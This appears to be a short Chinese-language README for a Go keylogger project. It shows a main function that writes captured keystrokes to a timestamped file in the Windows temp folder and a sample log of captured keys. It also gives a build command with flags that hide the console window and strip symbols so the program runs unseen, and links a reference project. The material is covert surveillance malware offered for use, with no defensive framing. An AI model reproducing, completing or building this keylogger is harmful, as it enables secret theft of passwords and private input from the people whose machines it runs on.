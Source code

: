 # 简易键盘记录器


## 文件记录在 c:\\Windows\\temp\\ 目录下，以时间戳命名。
```
func main() {
	timeUnix := time.Now().Unix()
	KeylogSavePath = fmt.Sprintf("c:\\Windows\\temp\\%d.txt", timeUnix)

	Keylogger()
}
```

## 内容格式
```
2023/03/11 17:56:05 [Enter]
2023/03/11 17:56:06 n
2023/03/11 17:56:07 e
2023/03/11 17:56:07 t
2023/03/11 17:56:07  
2023/03/11 17:56:07 u
2023/03/11 17:56:07 s
2023/03/11 17:56:08 e
2023/03/11 17:56:08 r
2023/03/11 17:56:08 [Enter]
```
## 编译代码
```
go build -ldflags "-H windowsgui -s -w" ./main.go
```


## 参考项目
1. https://github.com/JayGitH/EyeWorm
